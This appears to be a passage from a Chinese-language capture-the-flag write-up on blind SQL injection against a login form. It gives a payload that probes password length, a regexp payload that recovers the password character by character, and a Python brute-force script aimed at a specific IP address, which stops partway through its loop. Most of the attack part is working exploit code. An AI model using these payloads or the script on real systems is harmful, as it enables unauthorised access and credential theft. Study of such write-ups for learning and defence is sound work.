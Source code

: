 ![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/regexp.png?raw=true)

如图语句匹配以规定字符开头的密码所对应的结果集，可以达到逐字猜解的效果，查询密码长度：
```sql
uname=asd'or(length(pwd)>?)!='0&pwd=asd
```
密码长度为30，最终payload:
```sql
uname=asd'or(pwd)regexp'^?&pwd=asd
```
脚本如下：
```python
#!/usr/bin/env python
import requests
import re

url = "http://202.112.26.124:8080/fb69d7b4467e33c71b0153e62f7e2bf0/index.php"
str = "abcdefghijklmnopqrstuvwxyz"

def exp():
	password = ""
	payload = 'asd\'or(pwd)regexp\'^'
	for j in range(30):
		for i in str:
			data = {'uname':payload+i,'pwd':'asd'}
			res = requests.post(url,data=data)
```